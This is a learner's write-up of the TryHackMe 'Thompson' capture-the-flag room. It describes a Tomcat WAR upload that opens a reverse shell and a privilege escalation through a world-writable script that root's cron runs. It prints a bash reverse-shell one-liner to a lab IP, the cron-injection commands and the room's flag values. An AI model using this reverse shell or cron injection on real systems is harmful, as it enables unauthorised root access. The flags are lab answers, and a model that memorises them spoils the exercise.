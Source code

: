 # Report Thompson 
[Link]("https://tryhackme.com/r/room/bsidesgtthompson")
### NEW learning 
- msfpayload 
This is the feature of metasploit that is helpful to create a payload with the 
options set up. such as LHOSTS, LPORT etc.
We can create executables of different formates based on the target server. 


### Tomcat:
It is a webserver that is used to host java based websites.
This server there is somewhere an option to opload a war file.


once the exploit is uploaded, the we open the '/exploit' to connect to reverse shell
we get to see that there is an user called jack and has the user.txt

Once we had access to the reverse shell. we are now able to login using the tomcat
but we have the ssh open port lets see something is possible using ssh

### Into Jacks home
In the /home/jack, there are the files as listed below

```bash
ls -l
total 12
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Dec 26 09:22 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```
The id.sh is executing and putting the id output into the test.txt and in the same way we add the code.
 
```bash
echo "cp /root/root.txt /home/jack/root.txt" >> id.sh
```
### Now we execute the code 
Maybe jack has enough previlages to copy the file from the root is one reason since the file is hetting copied to the current directory after runnin `id.sh` in the terminal.
[CLARIFIED BELOW]
Now we can see the contents of the file.
Here are the contents:

```bash
ls
id.sh
root.txt
test.txt
user.txt


ls -l
total 16
-rwxrwxrwx 1 jack jack 64 Dec 26 09:32 id.sh
-rw-r--r-- 1 root root 33 Dec 26 09:48 root.txt
-rw-r--r-- 1 root root 39 Dec 26 09:48 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt


cat user.txt
39400c90bc683a41a8935e4719f181bf


cat root.txt
d89d5391984c0450a95497153ae7ca3a

```
### CLARIFICATION
Here is the clarification i have got after checking a writeup.
There is a linux tool software that automatically executes a command based on the frequence and the tool called `corntab`.
Here also the same scenirio has happened. The software is running in the background called as corntab and it executes everyminute the id.sh
Here is the cornpeas output log info
```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh

```
So we can clearly see that every minute the code id.sh in `/home/jack` will be executed by the root user.
we no need to execute it.
__Since the `corntab` is executing it using the root previlages, the `id` in the `test.txt` is root.__

- Now i will try to add a reverse shell bash script
```bash
$echo "bash -i >& /dev/tcp/10.17.2.145/4444 0>&1" >> id.sh

$cat id.sh
#!/bin/bash
id > test.txt
cp /root/root.txt /home/jack/root.txt
bash -i >& /dev/tcp/10.17.2.145/4444 0>&1

And i got the shell after a minute since it executes automatically
The screenshot in the same directory shows it.

```
You can use `linPEAS` to detect this. [PRovided you have access to ssh account]
```bash
scp -P 22 /path/to/linPEAS.sh username@IP:/path/to/dest/to/save/linPEAS.sh
```
This is helpless in this task unless we get access to the ssh credentials.
#### References 
[url]("https://bobloblaw321.wixsite.com/website/post/tryhackme-thompson")

